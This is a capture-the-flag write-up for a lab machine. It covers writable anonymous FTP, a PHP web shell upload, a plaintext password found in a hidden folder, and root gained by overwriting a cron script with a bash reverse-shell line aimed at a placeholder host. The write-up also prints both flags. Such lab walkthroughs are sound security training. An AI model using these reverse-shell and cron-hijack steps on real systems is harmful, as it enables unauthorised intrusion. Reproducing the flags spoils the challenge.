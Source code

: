 ## BattleX CTF: machine3 
#### Category: Boot2Root
#### Score: 60
#### Number of Solves: 4 
### Description

> Description here 

### TL; DR

Exploit anonymous ftp file upload to get shell, find hidden file that contains credential and move to a more privileged user and exploit root user cron task to gain root access.
    
### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-30 00:29 WAT
Nmap scan report for 10.10.195.130
Host is up (0.48s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Jun 23 15:38 images [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.22.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hacksparo Blogs - Cybersecurity & Pentesting
Service Info: OS: Unix
```
FTP and HTTP services on port 21 and 80 respectively. With FTP allowing anonymous login.

### Exploring

![Imgur](https://i.imgur.com/ximhUo9.png)

_FTP anonymous login_

I downloaded image1.jpg and is the exact one on the blog

![Imgur](https://i.imgur.com/zXVBsBW.png)

_Apache Server_

![Imgur](https://i.imgur.com/1mZfWYs.png)

_Blog post with ftp image_

The image is on `/userdata45545/image1.jpg`. It is likely that files on the ftp is mirrored to `/userdata45545` directory. I tried uploading a php shell via the FTP.

```
ftp> put ex.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
2587 bytes sent in 0.000138 seconds (17.9 Mbytes/s)
ftp>
```
It uploaded and it's on `/userdata45545` directory. 

![Imgur](https://i.imgur.com/SQuOPvv.png)

With my listener listening for incoming connections...

![Imgur](https://i.imgur.com/iEW1Rew.png)

I have shell access!

### Privilege escalation

```
www-data@BattleX:/var/www/html/userdata45545$ ls -lah
ls -lah
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Jun 30 00:16 .
drwxr-xr-x 3 ftp      root     4.0K Jun 23 15:00 ..
lrwxrwxrwx 1 root     root       22 Jun 30 00:16 ex.php -> /srv/ftp/images/ex.php
lrwxrwxrwx 1 root     root       26 Jun 23 13:47 image1.jpg -> /srv/ftp/images/image1.jpg
```

The files in `/var/www/html/userdata45545` are symlinked `/srv/ftp/images` so I will check the ftp folder first before starting enumeration

```
www-data@BattleX:/srv/ftp/images$ ls -lah
total 52K
drwxrwxrwx 2 root    root 4.0K Jun 30 00:15 .
dr-xr-xr-x 4 ftp     ftp  4.0K Jun 23 15:21 ..
-rwxrwxrwx 1 ftp     ftp  2.6K Jun 30 00:15 ex.php
-rwxrwxrwx 1 ftpuser ftp   39K Jun 23 12:33 image1.jpg
www-data@BattleX:/srv/ftp/images$ cd ..
cd ..
www-data@BattleX:/srv/ftp$ ls -lah
total 16K
dr-xr-xr-x 4 ftp  ftp  4.0K Jun 23 15:21 .
drwxr-xr-x 3 root root 4.0K Jun 23 11:01 ..
drwxr-xr-x 2 root root 4.0K Jun 23 15:22 ...         [Hey that's sus]
drwxrwxrwx 2 root root 4.0K Jun 30 00:15 images
```
There's a hidden folder on `/srv/ftp` which contained a message

```
www-data@BattleX:/srv/ftp$ cd ...
www-data@BattleX:/srv/ftp/...$ ls
message
www-data@BattleX:/srv/ftp/...$ cat message
cat message
Hey CommanderX,

I've updated your password to "91297623". Please note that our website syncs every minute, as I instructed the developer to perform some maintenance.

Best,
Hacksparo
```
CommanderX is a user on this machine and I can switch with the password.

```
www-data@BattleX:/srv/ftp/...$ su commanderx
Password:
commanderx@BattleX:/srv/ftp/...$ cd
commanderx@BattleX:~$ cat user.txt
cat: user.txt: Permission denied
```

root owns the user.txt. 

After several enumerations, I snuck pspy to the system to sniff processes by other users without using root permisions. Soon I found out that root is running a bash script as part of its cron schedule.

![Imgur](https://i.imgur.com/YOUcxDp.png)

I echoed a nc reverse shell into the permch.sh file since I have write permission and wait for connection.

```
commanderx@BattleX:/opt$ echo "bash -i >& /dev/tcp/MY_IP/9002 0>&1" > permch.sh
```
Root shell gotten

![Imgur](https://i.imgur.com/XZiMbRp.png)

User flag: `battleX{e4d909c290d0fb1ca068ffaddf22cbd0}`

Root flag: `battleX{1a79a4d60de6718e8e5b326e338ae533}`

Done!
